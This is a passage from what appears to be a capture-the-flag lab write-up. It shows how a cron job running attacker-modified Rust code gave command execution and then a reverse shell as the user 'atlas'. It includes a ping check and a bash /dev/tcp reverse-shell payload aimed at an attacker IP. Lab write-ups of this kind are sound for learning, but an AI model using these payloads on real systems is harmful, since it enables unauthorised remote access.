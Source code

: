 ```rust
        println!("Command success");
    } else {
        println!("Command failed");
    }
}

```

After waiting for the cron job to run again (confirm with `pspy`), we found the file `/tmp/0xe10c`, created by the user `atlas`. 

![[Pasted image 20230703145641.png]]
We have command execution.

Using this process, we validated the ability of the target to reach the attacker over the network with this command injection.
```rust
...
    let command = Command::new("ping")
        .arg("-c1")
        .arg("10.10.14.207")
        .output()
        .expect("bash command failed");
...
```

![[Pasted image 20230703150659.png]]

# Privesc

## Exploiting TipNet for revshell as `atlas`

Using the payload shown below, we were able to receive a reverse shell as the `atlas` user.

```rust
...
    let command = Command::new("bash")
        .arg("-c")
        .arg("bash -i >& /dev/tcp/10.10.14.207/9002 0>&1")
        .output()
        .expect("bash command failed");

    if command.status.success() {
        println!("Command success");
    } else {
        println!("Command failed");
...
```

![[Pasted image 20230703153805.png]]
